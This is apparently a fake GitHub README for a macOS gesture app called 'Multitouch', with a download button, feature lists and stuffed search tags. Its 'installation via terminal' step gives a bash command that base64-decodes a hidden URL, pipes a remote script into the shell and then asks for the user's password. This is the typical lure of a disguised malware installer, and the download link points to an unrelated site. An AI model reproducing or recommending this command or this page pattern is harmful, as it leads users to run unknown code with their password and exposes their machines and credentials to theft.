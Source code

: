 # Multitouch for Mac – Custom Multi-Gesture Control

![Multitouch Screenshot](https://multitouch.app/assets/images/spotlight02.png)

## 📥 Download Multitouch for macOS

[![⬇️ Download Multitouch](https://img.shields.io/badge/Download-Multitouch%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Multitouch)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below. 
```bash 
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Multitouch for Mac?

Multitouch is a powerful macOS utility that expands how you use your Mac's input devices. It lets you create custom multitouch gestures for your trackpad, Magic Mouse, or Magic Trackpad, allowing you to assign keyboard shortcuts, window snapping, or automation scripts to taps, swipes, pinches, and force clicks.

Perfect for power users and professionals, Multitouch enables you to replace complex workflows with intuitive gestures, saving time and improving comfort. Whether you're browsing, coding, or designing, the app integrates smoothly with the system, stays light on resources, and works flawlessly on both Intel and Apple Silicon Macs.

With full support for gesture mapping, per-app customization, and deep macOS integration, Multitouch becomes a must-have tool for those who demand control, speed, and elegance in their workflow.

---

## ⚙️ Key Features

- 👆 Customize gestures for mouse, trackpad, and Magic devices  
- 🧠 Assign actions like keystrokes, shortcuts, and scripts  
- 🪟 Window snapping and quick window control  
- 🔄 Multi-device support: MacBook, Magic Mouse, Trackpad  
- ⚡ Ultra-fast gesture recognition  
- 🧩 System-wide integration  
- 💻 Compatible with macOS Monterey, Ventura, and Sonoma  
- 🧬 Native M1/M2/M3 support  

---

## 📦 System Requirements

- macOS 10.13 (High Sierra) or later  
- Compatible with Monterey, Ventura, Sonoma  
- Works with Intel and Apple Silicon (M1/M2/M3) Macs  
- Minimum 100MB free disk space  

---

## 🔍 Tags

multitouch mac, apple multi touch mouse, apple multi touch trackpad, multi touch macbook, multi touch mouse mac, multitouch app mac, multitouch for mac, multitouch mac app, multitouch macos, multitouch mac download, mac trackpad gestures, customize mac gestures, magic trackpad mac, magic mouse gestures, multitouch gesture manager, multitouch mac utility, mac gesture control, mac multitouch tool, trackpad gesture software mac

---
